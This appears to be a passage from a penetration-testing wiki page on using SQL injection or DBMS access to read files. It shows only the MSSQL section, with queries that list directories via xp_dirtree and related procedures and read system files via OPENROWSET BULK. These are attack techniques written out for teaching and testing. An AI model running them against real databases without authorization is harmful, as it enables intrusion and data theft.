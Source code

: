 # Read/Write/Execute

## Theory

When exploiting SQL injection vulnerabilities, or if you have a direct access to the DBMS, you may be able to read/write files on the operating system. In some case you will be able to execute arbitrary command

## Practice

{% hint style="info" %}
Some queries on this page can be used with different techniques as UNION or Blind based attacks
{% endhint %}

### Read

{% tabs %}
{% tab title="MSSQL" %}
### Directories

We may list directories on MSSQL using following commands

```sql
EXEC master.sys.xp_dirtree 'C:\',1,1
xp_dirtree 'C:\'
EXEC master.dbo.xp_dirtree 'C:\'
EXEC master..xp_subdirs 'C:\'
EXEC master..xp_fileexist 'C:\'
```

{% hint style="danger" %}
You can check who (apart sysadmins) has permissions to run those MSSQL functions with:

```sql
Use master;
EXEC sp_helprotect 'xp_dirtree';
EXEC sp_helprotect 'xp_subdirs';
EXEC sp_helprotect 'xp_fileexist';
```
{% endhint %}

### Files

By default, `MSSQL` allows file **read on any file in the operating system to which the account has read access**. We can use the following SQL query:

```sql
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```

However, the **`BULK`** option requires the **`ADMINISTER BULK OPERATIONS`** or the **`ADMINISTER DATABASE BULK OPERATIONS`** permission.
